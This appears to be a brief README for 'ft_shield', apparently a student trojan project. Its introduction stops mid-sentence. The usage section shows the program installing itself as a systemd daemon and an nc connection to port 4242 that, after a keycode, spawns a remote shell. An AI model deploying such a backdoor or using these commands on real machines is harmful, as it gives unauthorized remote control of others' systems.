 ## Introduction
A trojan horse is a type of malware 
## Usage Example
# Start the program
    $ ./ft_shield
# Verify daemon is running
    $ systemctl status ft_shield.service
# Connect to daemon
    $ nc addr_ip 4242
    Keycode: 42
    $> shell
    Spawning shell on port 4242
